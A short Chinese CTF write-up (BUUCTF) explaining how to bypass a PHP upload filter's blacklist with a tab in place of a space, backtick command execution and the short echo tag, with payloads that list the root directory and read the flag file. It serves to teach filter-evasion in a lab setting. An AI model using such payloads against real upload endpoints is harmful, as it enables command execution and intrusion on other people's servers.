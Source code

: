 ### \t 代替空格绕过

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67d825c788c538a9b5bff9d7.png)

打开页面给出了源码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

先看看路径是什么

![](https://pic1.imgdb.cn/item/67d8260f88c538a9b5bff9f2.png)

我们需要知道这个目录下有什么，但是常见的 eval() 函数被过滤了

使用 `` 包裹命令，这样 PHP 就会将里面的内容当成命令执行

最后使用 `<?=` 输出，同时 `\t` 绕过空格

```php
?action=upload&data=<?=`ls\t/`?>
```

![](https://pic1.imgdb.cn/item/67d8277888c538a9b5bffa4d.png)

访问文件拿到 flag

```
?action=upload&data=<?=`cat\t/flllllll1112222222lag`?>
```

![](https://pic1.imgdb.cn/item/67d8279888c538a9b5bffa5d.png)